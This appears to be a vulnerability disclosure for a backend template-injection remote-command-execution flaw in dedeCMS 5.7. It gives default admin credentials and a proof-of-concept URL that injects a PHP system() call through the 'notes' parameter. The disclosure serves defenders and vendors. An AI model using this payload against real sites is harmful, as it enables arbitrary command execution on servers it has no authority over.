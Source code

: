 ## Title: Template injection command execution vulnerability in dedeCMS 5.7 sp2

**BUG_Author:** Ewoji

**Affected Version:**  dedeCMS < 5.7.2

**Vendor:** [Shanghai Zhuozhuo Network Technology Co., LTD](https://www.dedecms.com/)

**Software:** [dedeCMS](https://www.dedecms.com/download#download)

**Vulnerability Files:**
- `/include/dedetag.class.php`

## Description:

1. **After install，Log in to the background**
   - Use the default account password admin/admin

2. **Exploiting the Template**
   - Access the dede/co_get_corule.php interface
   - Pass in the parameter /dede/co_get_corule.php? notes={dede:"); system('calc'); ///}&job=1,Accessing twice like this can execute the command

3. **Verifying the Exploit:**
   - If the injection is successful,The attacker will execute arbitrary commands

## Proof of Concept:

   ```
   /dede/co_get_corule.php?notes={dede:");system('calc');///}&job=1
   Accessing twice like this can execute the command
   ```
detail:[CVE-2025-6335-dedeCMS后台模板注入RCE](https://ewoji.cn/2025/06/20/CVE-2025-6335-dedeCMS%E5%90%8E%E5%8F%B0%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5RCE/)
